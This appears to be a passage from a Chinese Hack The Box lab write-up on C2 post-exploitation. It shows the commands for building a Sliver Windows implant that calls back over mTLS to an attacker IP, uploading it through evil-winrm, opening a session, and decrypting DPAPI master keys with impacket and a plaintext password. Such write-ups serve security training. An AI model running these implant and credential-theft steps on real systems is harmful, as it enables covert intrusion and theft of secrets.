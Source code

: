 C2的通信模式除了正反向shell，最常用的是beacon式，也就是植入体定期（如每60秒）向C2服务器“报到”一次，询问是否有新任务。

常见的C2工具有MSF的meterpreter载荷，Cobalt Strike（商业软件，业界标杆），Sliver（开源，强力替代品）等

C2用于后渗透阶段（已经获取了一个初始立足点比如一个shell），核心概念是隐蔽、持久，扩大权限并窃取数据。

我们这里使用sliver工具：

`apt install sliver`安装后包含`sliver-server`和`sliver-client`两条指令。客户端主要作用是在多人协作时，多个客户端操作员可以连接同一个服务端，协同工作。

直接运行`sliver-server`，然后使用generate生成植入物

```
[server] sliver > generate --mtls 10.10.16.19 -N puppy -O windows

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m12s
[*] Implant saved to /home/orange/my_tools/puppy.exe
```

--mtls是使用mtls协议通信，-N指定植入物名称，-O指定操作系统类型

然后通过evil-winrm上传文件

```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData> upload ../../../../../home/orange/my_tools/puppy.exe
                                        
Info: Uploading /home/orange/HTB/../../../../../home/orange/my_tools/puppy.exe to C:\Users\steph.cooper\AppData\puppy.exe 
```

这里其实有一个思考？writeup说为了下载凭据文件和密钥文件，我们需要使用sliver获得一个更稳定的shell。

这里更稳定是什么？我们通过winrm连接还不够稳定吗？其实这里的"stable shell"指的不是网络的稳定，更多是隐藏性和健壮性。比如如果直接winrm下载凭据和密钥文件动静太大，很容易被发现，同时如果用户的密码被更改，winrm登录就会失效。（我们第一个通过修改密码登录的用户adam.silver就是因此会掉，然后需要重新修改密码）

这里也表明HTB更接近真实环境。

上传后sliver运行mtls监听，winrm中运行植入物puppy.exe，成功监听到。

之后sessions查看ID，sessions -i进入交互页面：

```
[server] sliver > sessions -i 0bdbb37c

[*] Active session puppy (0bdbb37c)

[server] sliver (puppy) > 
```

然后可以两种方法了：

1. 下载文件后利用impacket的apapi
2. 利用mimikatz中dpapi模块的masterkey方法

我们使用第一种：

```
$ dpapi.py masterkey -file "556a2412-1275-4ccf-b721-e6a0b4f90407" -sid S-1-5-21-
1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
```
